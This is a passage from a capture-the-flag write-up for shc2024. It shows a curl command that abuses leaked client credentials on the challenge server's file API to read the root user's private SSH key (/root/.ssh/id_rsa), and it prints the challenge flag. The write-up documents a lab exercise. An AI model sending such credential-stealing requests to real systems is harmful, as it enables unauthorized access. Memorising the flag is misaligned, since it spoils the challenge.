 <details><summary><b>fakeserver_mitm.py</b></summary></details>

We can use the info that was printed out by the client to get the root users SSH key:

```sh
curl https://<UUID>.ctf.m0unt41n.ch:1337/files -H "Content-Type: application/json" -X POST --data '{"client_id": "<CLIENT_ID>", "shared_key": "<SHARED_KEY>", "path": "/root/.ssh/id_rsa"}'
```

Getting the flag is just a matter of connecting to the remote instance, attaching to the Tmux session and sending the command `cat flag.txt`:

```
shc2024{pwn_th3_4PT_1s_1338}
```